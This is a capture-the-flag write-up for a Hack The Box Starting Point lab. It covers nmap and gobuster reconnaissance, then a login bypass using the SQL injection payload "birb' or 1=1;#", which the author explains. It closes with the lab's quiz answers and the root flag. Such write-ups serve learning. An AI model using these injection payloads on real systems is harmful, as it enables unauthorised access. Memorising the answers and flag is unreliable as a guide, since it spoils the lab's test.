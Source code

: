 ## Walkthrough

- nmap scans

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.56.206
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 19:49 IST
Nmap scan report for 10.129.56.206
Host is up (0.57s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 50.46 seconds
```

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.56.206 -sC -sV -p80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 20:00 IST
Nmap scan report for 10.129.56.206
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.62 seconds
```

- did a dirbust to find directories on the http server
- found nothing useful lol

```
┌─[birb@coffee]─[~]
└──╼ $gobuster dir --url 10.129.56.206 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.56.206
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/03/16 20:03:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.56.206/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.56.206/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.56.206/images/]
/index.php            (Status: 200) [Size: 4896]                                  
/js                   (Status: 301) [Size: 311] [--> http://10.129.56.206/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/vendor               (Status: 301) [Size: 315] [--> http://10.129.56.206/vendor/]   
===============================================================
2023/03/16 20:06:31 Finished
===============================================================
```

- opened `http://10.129.56.206` in browser

![](https://github.com/nyxtales0x0/htb/blob/master/boxes/starting-point/tier-1/images/Pasted%20image%2020230316231358.png?raw=true)

- tried sql injection to bypass login

> username : birb' or 1=1;#
> 
> password : coffee
>
> behind the scenes because of the `'` the string ended there and the `or 1=1` part got executed. when combined together it would return true even if the user `birb` is not present. the `#` at the end comments out rest of the sql statement checks on the server side thus making the password check useless.

- got the flag

![](https://github.com/nyxtales0x0/htb/blob/master/boxes/starting-point/tier-1/images/Pasted%20image%2020230316231208.png?raw=true)

## Tasks

**What does the acronym SQL stand for?**

=>  Structured Query Language 

**What is one of the most common type of SQL vulnerabilities?**

=> SQL injection

**What does PII stand for?**

=> Personally Identifiable Information

**What is the 2021 OWASP Top 10 classification for this vulnerability?**

=> A03:2021-Injection

**What does Nmap report as the service and version that are running on port 80 of the target?**

=> Apache httpd 2.4.38 ((Debian))

**What is the standard port used for the HTTPS protocol?**

=> 443

**What is a folder called in web-application terminology?**

=> directory

**What is the HTTP response code is given for 'Not Found' errors?**

=> 404

**Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?**

=> dir

**What single character can be used to comment out the rest of a line in MySQL?**

=> #

**If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?**

=> Congratulations

**Submit root flag**

=> e3d0796d002a446c0e622226f42e9672